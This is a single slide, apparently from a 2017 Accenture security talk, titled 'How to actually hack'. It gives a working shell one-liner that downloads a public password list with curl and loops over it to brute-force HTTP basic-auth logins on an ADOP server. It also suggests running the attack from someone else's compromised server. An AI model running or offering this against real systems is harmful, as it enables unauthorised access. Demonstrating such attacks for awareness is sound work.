

Brute forcing
# How to actually hack
It’s not rocket science!

Brute forcing an ADOP from the command line (hardly any more characters than a tweet):
Open up a shell (ideally from someone else’s server if you already have one)
Execute:
$ export ADOPURL=http://<adop ip>
$ curl https://dazzlepod.com/site_media/txt/passwords.txt |
  while read PW; do curl -fs adop:"$PW"@$ADOPURL > /dev/null; \
  if [ $? == 0 ]; then echo Your ADOP password is: $PW; fi ; done

Brute forcing a website: there are browser addins that do this!
Copyright 2017 Accenture. All rights reserved.
13